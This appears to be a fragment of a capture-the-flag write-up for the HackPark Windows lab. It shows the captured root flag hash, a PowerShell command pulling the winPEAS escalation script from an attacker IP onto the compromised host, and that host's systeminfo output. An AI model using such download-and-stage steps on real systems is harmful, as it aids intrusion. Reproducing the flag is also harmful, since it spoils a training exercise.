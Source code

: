 ```
C:\Users\Administrator\Desktop>type root.txt
type root.txt
7e13d97f05f7ceb9881a3eb3d78d3e72
```

```
C:\Windows\Temp -c "Invoke-WebRequest -Uri 'http://10.9.11.184/winPEAS.bat' -OutFile 'C:\Windows\Temp\winPEAS.bat'"
```

```
Host Name:                 HACKPARK
OS Name:                   Microsoft Windows Server 2012 R2 Standard Evaluation
OS Version:                6.3.9600 N/A Build 9600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                00252-10000-00000-AA228
Original Install Date:     8/3/2019, 10:43:23 AM
System Boot Time:          6/21/2020, 10:19:48 AM
System Manufacturer:       Xen
System Model:              HVM domU
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: Intel64 Family 6 Model 79 Stepping 1 GenuineIntel ~2300 Mhz
BIOS Version:              Xen 4.2.amazon, 8/24/2006
```